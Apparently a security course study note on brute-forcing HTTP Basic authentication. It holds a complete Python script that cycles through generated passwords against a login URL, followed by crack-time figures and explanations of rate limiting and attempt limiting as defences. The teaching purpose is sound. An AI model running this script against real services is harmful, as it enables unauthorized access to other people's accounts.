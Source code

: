 
![[practice.pdf#page=54&rect=34,374,548,793|practice, p.54]]

## Example brute-force code

```python
#!/usr/bin/env python

from sys import argv
import os.path
import requests
import base64
import string
import itertools


def password_wordlist(start_range=1, end_range=10):
    chars = (
        string.ascii_lowercase
        + string.ascii_uppercase
        + string.digits
        + "@"
        + "#"
        + "$"
        + "."
    )

    for password_length in range(start_range, end_range):
        for guess in itertools.product(chars, repeat=password_length):
            yield "".join(guess)


# Login Page URL
url = argv[1] if len(argv) > 1 else "http://127.0.1.1/"

for user in ["kloud2"]:
    for passwd in password_wordlist():
        user_pass = f"{user}:{passwd.strip()}"
        base64_value = base64.b64encode(user_pass.encode("ascii")).decode("ascii")

        try:
            res = requests.get(url, headers={"Authorization": f"Basic {base64_value}"})
        except:
            print("No such URL")
            exit(1)

        if res.status_code == 200:
            print(f" ======= CRACKED: {user}: {passwd}")
            exit(0)
        elif res.status_code == 401:
            print(f"FAILED {res.status_code}: {user}:{passwd}")
        else:
            print(f"Unexpected Status Code: {res.status_code}")

```


## Timings

> Timings for ascii + special character alphabet

| 2 chars | 3 chars | 4 chars | 5 chars |
| ------- | ------- | ------- | ------- |
| 230ms   | 44s     | 3 min   | 16 min  |
> As we can see the time to crack the password increases exponentially

> [!note] 
> Such an attack would be **infeasible** in the real world because of [[#Rate limiting]] and *attempt limiting*
> And basic auth **should not be used** in the first place

### Rate limiting

> A method of controlling traffic flow to a service or server by *restricting the number of requests* that can be made *within a certain time frame*

This is usually done with a separate service/reverse proxy that 'sits' on top of the web server

### Attempt limiting

> A method of preventing brute-force attacks by limiting the number of attempts *within a certain time frame* 

This can be done by an external auth proxy or the webserver itself
